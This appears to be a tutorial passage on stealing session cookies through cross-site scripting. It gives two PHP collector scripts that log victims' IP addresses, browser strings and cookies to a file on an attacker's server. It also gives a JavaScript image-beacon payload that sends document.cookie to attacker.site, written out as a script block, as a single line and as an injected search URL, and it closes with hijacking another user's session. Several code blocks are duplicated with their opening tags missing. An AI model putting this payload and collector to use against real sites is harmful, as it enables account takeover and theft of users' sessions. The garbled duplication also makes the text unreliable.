

example: steal cookies without an alert message
Firefox extensions may help a lot in testing how the Cookies mechanism works in a Website
Live HTTP Header: helps understanding WHEN the cookie is being sent
Cookie Editor: shows the installed cookies and the <domain,path,expiration> parameters
get.php (http://attacker.site/get.php)
First thing we need a web page as Attacker that we own(in our example get.php) that is able to:
1. accept the request from the vulnerable site
2. retrieve the cookies and store them in a file in the attacker server
We will save the stolen cookies in the file jar.txt that will be passed(see that in the next paragraph javascript payload) by
i.src="http://your.site/get.php?cookies="+document.cookie;
<?php
print("we store the cookies in the file jar.txt:\n\n");
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fp = fopen('jar.txt', 'a');
fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). "\n\n");
fclose($fp);
?>
print("we store the cookies in the file jar.txt:\n\n");
$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];
$fp = fopen('jar.txt', 'a');
fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). "\n\n");
fclose($fp);
?>
or a simpler version
<?php
$filename="/tmp/jar.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['id'];
fwrite($fp, $cookie);
fclose($fp);
?>
$filename="/tmp/jar.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['id'];
fwrite($fp, $cookie);
fclose($fp);
?>
javascript payload
Payload that we have inject in the website with a form or something similar
This payload create new image object and set the address of the image to our website link.
With this simple code we trick the victim browser to request our webpage and send to it the cookies
<script>
var i = new Image();
i.src="http://attacker.site/get.php?cookies="+document.cookie;
</script>
var i = new Image();
i.src="http://attacker.site/get.php?cookies="+document.cookie;
</script>
that in a single line would be
<script>var i=new Image();i.src="http://attacker.site/get.php?cookies="+document.cookie;</script>
That in a url would be:
http://www.example.com/members/search.php?kw=<script>var i=new Image();i.src="http://attacker.site/get.php?cookies="+document.cookie;</script>
Now we put in place our plan, first we need to go to the vulnerable website and paste our javascript code

Stolen cookies in the jar.txt file in our website

now that we have stolen the sessionID we can change it an acces like another user
{kind=link}